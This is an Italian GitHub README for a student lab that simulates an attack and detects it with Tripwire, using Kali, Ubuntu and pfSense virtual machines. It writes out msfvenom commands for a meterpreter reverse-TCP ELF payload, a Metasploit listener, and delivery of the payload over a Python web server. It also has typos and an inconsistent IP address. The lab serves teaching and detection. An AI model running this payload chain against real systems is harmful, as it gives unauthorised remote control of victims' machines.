 
# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.

![Architettura](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Screened-Network.drawio.png)

Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 4 terminali:

 1. **Terminale**: Ottenere indirizzo ip dell'interfaccia di rete della macchina kali 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o Desktop/payloads/shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use multi/handler
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.18
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target. Come esempio è stato eseguito un cambio di permessi ad una cartella
 ```bash
meterpreter > sudo chmod o+x ./DirectoryTarget
```

 4. **Terminale**: Per far ricevere il pacchetto alla macchina target viene esposto un web server al quale sarà possibile scaricare il file *shell-x86.elf*. (prima entrare nella cartella in cui è il file)
```bash
cd Desktop/payloads
sudo python -m http.server 80
```

## Ubuntu Target
Nella macchina target la prima cosa da fare è installare Tripwire che ci permetterà di rilevare l'attacco compiuto dall'attaccante
```bash
sudo apt-get update
sudo apt-get install tripwire
```
Lasciando inalterate le impostazioni di configurazione di default, Tripwire ti chiederà di creare due chiavi.

-   **site key** : questa chiave viene utilizzata per proteggere i file di configurazione. Dobbiamo assicurarci che i file di configurazione non vengano modificati, altrimenti non ci si può fidare del nostro intero sistema di rilevamento. 
    
-   **local key** : questa chiave viene utilizzata su ogni macchina per eseguire i binari. Ciò è necessario per garantire che i nostri file binari non vengano eseguiti senza il nostro consenso.

>  Nota: assicurati di scegliere passphrase non facilmente deducibili

 1.Inizializzare il database 
----------

Ora possiamo inizializzare il database che tripwire utilizzerà per convalidare il nostro sistema. Questo utilizza il file delle policy e controlla i punti specificati all'interno. Poiché questo file non è stato ancora personalizzato per il nostro sistema, avremo molti avvisi, falsi positivi ed errori. Useremo questi come riferimento per mettere a punto il nostro file di configurazione. Il modo di base per inizializzare il database è eseguendo:

```bash
sudo tripwire --init
```

Questo creerà il nostro file di database e genererà alcuni *warnings* che dobbiamo regolare nella configurazione.  Possiamo eseguire il comando `check` e posizionare i file elencati in un file chiamato `test_results`nella nostra directory di configurazione di tripwire:

```bash
sudo sh -c 'tripwire --check | grep Filename > test_results'
```

Se esaminiamo questo file, dovremmo vedere voci simili a questa:

```bash
less /etc/tripwire/test_results
```
```bash
Filename: /etc/rc.boot
Filename: /root/mail
Filename: /root/Mail
Filename: /root/.xsession-errors
. . .
```
2.Configurazione file delle policy 
----------

Ora che abbiamo un elenco di file che attivano tripwire, possiamo esaminare il nostro file di policy e modificarlo per eliminare questi falsi positivi. Apri il file *twpol.txt* nel tuo editor con i privilegi di root:
```bash
sudo nano /etc/tripwire/twpol.txt
```
Eseguire una ricerca per ciascuno dei file restituiti in`test_results`. Commenta tutte le righe che trovi corrispondenti. Fatto ciò, crea una nuova regola, dandogli un nome e un livello di gravità: `severity = $(SIG_HI)`.  Nel corpo verranno indicate le directory o i file a quali verrà applicata la regola che in questo caso è `$(SEC_INVARIANT) (recurse = 0)`; ossia non sono tollerati cambi di permessi o di proprietà nel primo livello della directory.

![rule](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20rule.png)

Salva e chiudi il file al termine delle modifiche. Ora che il nostro file è configurato, dobbiamo implementarlo ricreando il file di policy crittografato che tripwire effettivamente legge:

```bash
sudo twadmin -m P /etc/tripwire/twpol.txt
```
Dopo che questo è stato creato, dobbiamo reinizializzare il database per implementare la nostra politica:

```bash
sudo tripwire --init
```
```
Please enter your local passphrase:
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
Wrote database file: /var/lib/tripwire/tripit.twd
The database was successfully generated.
```
3.Predisposizione all'attacco
----------
Per far si che la macchina target subisca l'attacco è necessario che scaricare l'eseguibile esposto dalla macchina kali attraverso il web server. Dunque, collegandosi all'indirizzo `192.128.1.28/ 80` è possibile scaricare il file ed eseguirlo tramite i seguenti comandi: 
```bash
sudo chmod +x ./shell-x86.elf ##Concediamo diritti per esecuzione
./shell-x86.elf ##Esecuzione
```
Fatto ciò la macchina sarà infetta. Una volta avvenuto l'attacco lanciando il comando 
```bash
sudo tripwire --check 
```
inizierà la procedura di verifica la quale resituira il seguente report di output:

![report](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20detect.png)

## Autori

- [Mattia Scuriatti](https://github.com/Me77y99)
- [Gatti Giada](https://github.com/S1090231)

